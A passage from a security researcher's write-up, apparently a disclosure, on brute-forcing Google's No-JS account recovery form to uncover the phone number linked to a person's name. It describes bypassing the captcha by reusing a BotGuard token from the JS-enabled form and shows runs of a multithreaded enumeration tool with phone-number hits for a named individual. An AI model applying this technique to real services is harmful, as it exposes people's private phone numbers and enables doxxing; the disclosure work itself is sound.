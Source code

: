 Eventually, I had a PoC running, but I was still getting the captcha? It seemed that for whatever reason, datacenter IP addresses using the JS disabled form were always presented with a captcha, damn!

### Using the BotGuard token from the JS form

I was looking through the 2 requests again, seeing if there was anything I could find to get around this, and `bgresponse=js_disabled` caught my eye. I remembered that on the [JS-enabled account recovery form](https://accounts.google.com/signin/v2/usernamerecovery), the botguard token was passed via the **bgRequest** parameter.

‎

![](https://brutecat.com/assets/leaking-google-phones/bgtoken.png)

‎

What if I replace `js_disabled` with the botguard token from the JS-enabled form request? I tested it out, and **it worked??**. The botguard token seemed to have no request limit on the No-JS form, but who are all these random people?

```hljs plaintext
$ ./target/release/gpb --prefix +316 --suffix 03 --digits 6 -f Henry -l Chancellor -w 3000
Starting with 3000 threads...
HIT: +31612345603
HIT: +31623456703
HIT: +31634567803
HIT: +31645678903
HIT: +31656789003
HIT: +31658854003
HIT: +31667890103
HIT: +31678901203
HIT: +31689012303
HIT: +31690123403
HIT: +31701234503
HIT: +31712345603
HIT: +31723456703
```

It took me a bit to realize this, but those were all people who had the Google account name "Henry" with no last name set, as well as a phone with the last 2 digits **03**. For those numbers, it would return `usernamerecovery/challenge` for the first name Henry and **any last name**.

‎

I added some extra code to validate a possible hit with the first name, and a random last name like `0fasfk1AFko1wf`. If it still claimed it was a hit, it would be filtered out, and there we go:

```hljs plaintext
$ ./target/release/gpb --prefix +316 --suffix 03 --digits 6 --firstname Henry --lastname Chancellor --workers 3000
Starting with 3000 threads...
HIT: +31658854003
Finished.
```
